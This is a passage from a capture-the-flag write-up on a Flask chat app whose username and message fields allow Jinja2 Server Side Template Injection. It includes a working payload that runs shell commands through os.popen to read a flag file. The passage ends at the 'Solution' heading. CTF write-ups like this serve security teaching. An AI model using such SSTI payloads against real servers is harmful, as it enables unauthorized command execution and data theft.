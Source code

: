It will be rendered as:

```html
username1: message1<br>username2: message2<br>...<br>usernameN: messageN
```

And since we can control both `username`, `message`, we certainly can cause a <ins>Server Side Template Injection</ins>

To confirm the possibility of a <ins>Server Side Template Injection (SSTI)</ins>, we can leverage our control over both `username` and `message` fields. This allows us to attempt injecting a Jinja2 payload that could execute server-side code.

**Local Testing:**
1. Create a `flag.txt` file in the same directory as `main.py`:
  ```sh
  echo "FLAG{REDACTED}" > flag.txt
  ```
2. Modify the template in `main.py` for the `/` route to include a test payload that reads the contents of `flag.txt`:
  ```python
  <div>{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}</div>
  ```
3. Run the Flask app locally:
  ```sh
  python3 main.py
  ```
4. Visit `http://localhost:5000`, set a `username`, and navigate to `/`. You should see the contents of `flag.txt` displayed on the page.

![WhiteDukesDZ Logo](demonstration/local-test.png)

However, on the remote instance, we cannot modify `main.py` directly. Therefore, our goal is to inject a payload through user input that results in the template rendering something like:

```html
{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}
```

by carefully crafting the values of `username` and `message`.
---

## Solution
